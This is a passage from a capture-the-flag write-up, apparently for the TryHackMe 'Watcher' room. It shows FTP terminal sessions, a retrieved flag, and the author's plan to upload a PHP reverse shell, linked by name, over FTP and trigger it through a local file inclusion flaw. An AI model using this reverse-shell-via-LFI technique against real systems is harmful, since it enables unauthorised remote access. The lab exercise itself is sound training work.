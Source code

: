 ```terminal
dftp>exit
221 Goodbye.

┌──(sirius㉿kali)-[~/CTF/THM/watcher]                                                                                                                        
└─$ ls                                                                                                                                                       
flag_2.txt  scans
```

Great, we found our second flag, we can copy it to our machine using : `get flag_2.txt`

Since we have an LFI vulnerability, i'm going to try to upload a php reverse shell to the FTP server and try to access it using the web server. The shell i will be using is this : [php_reverse_shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```terminal
$ ftp 10.10.18.205                                                                                                                                         
Connected to 10.10.18.205.                                                                                                                                   
220 (vsFTPd 3.0.3)                                                                                                                                           
Name (10.10.18.205:sirius): ftpuser                                                                                                                          
331 Please specify the password.                                                                                                                             
Password:                                                                                                                                                    
230 Login successful.                                                                                                                                        
Remote system type is UNIX.                                                                                                                                  
Using binary mode to transfer files.                                                                                                                         
ftp> put rev.php                                                                                                                                        
local: rev.php remote: rev.php                                                                                                                     
229 Entering Extended Passive Mode (|||45312|)                                                                                                               
553 Could not create file.                                                                                                                                   
ftp> pwd                                                                                                                                                     
Remote directory: /                                                                                                                                          
ftp> ls                                                                                                                                                      
229 Entering Extended Passive Mode (|||42555|)                                                                                                               
150 Here comes the directory listing.                                                                                                                        
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files                                                                                                
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt                                                                                           
226 Directory send OK.                                                                                                                                       
ftp> cd files                                                                                                                                                
250 Directory successfully changed.                                                                                                                          
```